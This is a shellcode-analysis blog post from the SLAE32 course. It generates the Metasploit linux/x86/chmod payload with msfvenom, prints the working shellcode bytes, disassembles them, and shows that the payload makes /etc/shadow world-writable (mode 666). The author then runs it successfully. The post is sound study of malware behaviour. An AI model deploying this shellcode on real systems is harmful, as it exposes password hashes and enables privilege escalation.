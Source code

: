 ```yaml
---
layout: single
title: Shellcode MSF Chmod Analysis
date: 2019-10-10
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 3 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 3 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"

So let's start our analysis

## Chmod
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/chmod -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
As we can see, the strcture of the payload is like the ```adduser```. In this case we have only one syscall ```chmod()```.<br> 
![](/assets/images/SLAE32/assignment_5/chmod_0.png)<br>
![](/assets/images/SLAE32/assignment_5/chmod_1.png)<br>
First of all, it loads the 0xf (15 in decimal) in the EAX register, 15 means chmod syscall, next ```call dword 0x16``` jump forward of 16 bytes to ```pop ebx``` that load in EBX the stack containing the pathname of the file that need permission changes, the pathname is saved in the stack and is contained in this range of code
```
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popad
00000012  646F              fs outsd
00000014  7700              ja 0x16
```
Copy the hex values
```
2F
657463
2F
7368
61
646F
77
```
and convert it<br>
![](/assets/images/SLAE32/assignment_5/chmod_2.png)<br>
Next thing is to set the octal that will define the permission to set to the pathname and store it in ECX, in this case the value is 0x1b6, in octal ```666```, last exit with code 1.<br>
```bash
# printf "%o\n" 0x1b6
666
```
```
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```
### Check the results
Let's try the payload and watch the execution
![](/assets/images/SLAE32/assignment_5/chmod_3.gif)<br>
It worked!